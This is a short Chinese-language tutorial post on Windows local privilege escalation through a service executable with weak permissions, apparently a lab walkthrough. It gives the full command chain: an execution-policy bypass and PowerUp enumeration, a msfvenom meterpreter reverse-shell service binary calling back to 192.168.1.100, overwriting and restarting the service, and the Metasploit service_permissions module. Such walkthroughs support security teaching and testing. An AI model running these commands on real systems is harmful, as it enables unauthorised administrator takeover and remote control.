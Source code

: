 ```yaml
---
title: windows本地提权服务之可执行文件
categories:
- windows
tags:
- windows
---
```

windows本地提权服务之可执行文件
===
b站上的[视频教程](https://www.bilibili.com/video/av89502462)

漏洞原理是windows服务权限配置不当，任何人都可以**修改**服务的**应用程序**。将恶意代码复制到服务的应用程序末尾，重新启动该服务，即可利用漏洞。

## 运行powershell脚本发现漏洞
```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\PowerUp.ps1
Get-ModifiableServiceFile > 1.txt

```
查看运行结果1.txt

## 确认漏洞
`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`

RW everyone
说明任何人都有读写权限。

sc qc filepermsvc

## 生成攻击载荷
伪造服务应用程序

```
handler -H 192.168.1.100 -P 4444 -p windows/x64/meterpreter/reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe-service -o x.exe
```
## 利用漏洞
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"

sc start filepermsvc

net localgroup administrators

## 通过msf模块
```
search windows/local/service_permissions
use 0
set sessions x 
set lhost 192.168.1.100
set lport 4455
show options
run
```